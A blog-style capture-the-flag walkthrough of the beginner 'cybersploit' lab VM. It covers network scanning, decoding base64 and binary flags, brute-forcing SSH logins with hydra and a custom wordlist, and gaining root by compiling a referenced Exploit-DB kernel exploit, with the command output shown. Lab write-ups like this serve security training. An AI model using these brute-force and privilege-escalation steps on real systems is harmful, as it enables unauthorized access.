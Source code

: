 ```yaml
---
layout: post
title: CTF cybersploit
date:   2022-01-21 13:19:23 -0600
categories: CTF
tags: Linux
---
```

# Description 
THIS IS A MACHINE FOR COMPLETE BEGINNER , THERE ARE THREE FALGS AVAILABLE IN THIS VM.
FROM THIS VMs YOU WILL LEARN ABOUT ENCODER-DECODER & EXPLOIT-DB.

# netdiscover

![](https://i.imgur.com/eDewDgH.png)
192.168.0.42

# nmap

nmap -sV -p- 192.168.0.42

![](https://i.imgur.com/pbEEiON.png)

```zsh
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
```
# port 80
![](https://i.imgur.com/M9w3UTm.png)

## robots.txt
R29vZCBXb3JrICEKRmxhZzE6IGN5YmVyc3Bsb2l0e3lvdXR1YmUuY29tL2MvY3liZXJzcGxvaXR9 

I think it's base64.
![](https://i.imgur.com/xTOyQCo.png)
```zsh
➜  ~ echo R29vZCBXb3JrICEKRmxhZzE6IGN5YmVyc3Bsb2l0e3lvdXR1YmUuY29tL2MvY3liZXJzcGxvaXR9 | base64 --decode
Good Work !
Flag1: cybersploit{youtube.com/c/cybersploit}%    
```

## Source code
![](https://i.imgur.com/GLMB1Iq.png)
```zsh
<!-------------username:itsskv--------------------->
```
# Gif
In the gif we have this code.
I don't know what to do with it.
It's not in hexadecimal because there is a P and S.
```
B2C B2B PSD RGB
```
# Port 22

I did a wordlist with the words in the gif and the website.
https://weakpass.com/generate
Seriously:
![](https://i.imgur.com/FTJV1k5.png)
And th password was the flag.
```zsh
hydra -l itsskv -P cyberwordlist -s 22 -f 192.168.0.42 ssh
[22][ssh] host: 192.168.0.42   login: itsskv   password: cybersploit{youtube.com/c/cybersploit}
```
## flag2.txt

```zsh
itsskv@cybersploit-CTF:~$ ls
Desktop    Downloads         flag2.txt  Pictures  Templates
Documents  examples.desktop  Music      Public    Videos
itsskv@cybersploit-CTF:~$ cat flag2.txt 
01100111 01101111 01101111 01100100 00100000 01110111 01101111 01110010 01101011 00100000 00100001 00001010 01100110 01101100 01100001 01100111 00110010 00111010 00100000 01100011 01111001 01100010 01100101 01110010 01110011 01110000 01101100 01101111 01101001 01110100 01111011 01101000 01110100 01110100 01110000 01110011 00111010 01110100 00101110 01101101 01100101 00101111 01100011 01111001 01100010 01100101 01110010 01110011 01110000 01101100 01101111 01101001 01110100 00110001 01111101
```
![](https://i.imgur.com/Jturky3.png)
```zsh
good work !
flag2: cybersploit{https:t.me/cybersploit1}
```
## LSE.sh
```zsh
    Hostname: cybersploit-CTF
       Linux: 3.13.0-32-generic
Distribution: Ubuntu 12.04.5 LTS
Architecture: i686
============================================================( file system )=====
[!] fst020 Uncommon setuid binaries........................................ yes!
---
/usr/bin/X
/usr/bin/lppasswd
---
[*] fst080 Can we read subdirectories under /home?......................... yes!
[*] fst100 Useful binaries................................................. yes!
```
I have one thing interestion, the ubuntu version.
 

# Exploit
https://www.exploit-db.com/exploits/37292
I can't download andd vi crash when I use it, that's why I use nano.
```bash
itsskv@cybersploit-CTF:~$ touch exp.c
itsskv@cybersploit-CTF:~$ 
itsskv@cybersploit-CTF:~$ nano exp.c 
itsskv@cybersploit-CTF:~$ gcc exp.c -o exp
itsskv@cybersploit-CTF:~$ ./exp
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# id
uid=0(root) gid=0(root) groups=0(root),1001(itsskv)
```

# finalflag.txt
```zsh
root@cybersploit-CTF:/home/itsskv# cat /root/finalflag.txt
  ______ ____    ____ .______    _______ .______          _______..______    __        ______    __  .___________.
 /      |\   \  /   / |   _  \  |   ____||   _  \        /       ||   _  \  |  |      /  __  \  |  | |           |
|  ,----' \   \/   /  |  |_)  | |  |__   |  |_)  |      |   (----`|  |_)  | |  |     |  |  |  | |  | `---|  |----`
|  |       \_    _/   |   _  <  |   __|  |      /        \   \    |   ___/  |  |     |  |  |  | |  |     |  |     
|  `----.    |  |     |  |_)  | |  |____ |  |\  \----.----)   |   |  |      |  `----.|  `--'  | |  |     |  |     
 \______|    |__|     |______/  |_______|| _| `._____|_______/    | _|      |_______| \______/  |__|     |__|     
                                                                                                                  

   _   _   _   _   _   _   _   _   _   _   _   _   _   _   _  
  / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ 
 ( c | o | n | g | r | a | t | u | l | a | t | i | o | n | s )
  \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ 

flag3: cybersploit{Z3X21CW42C4 many many congratulations !}

if you like it share with me https://twitter.com/cybersploit1.

Thanks !
```



















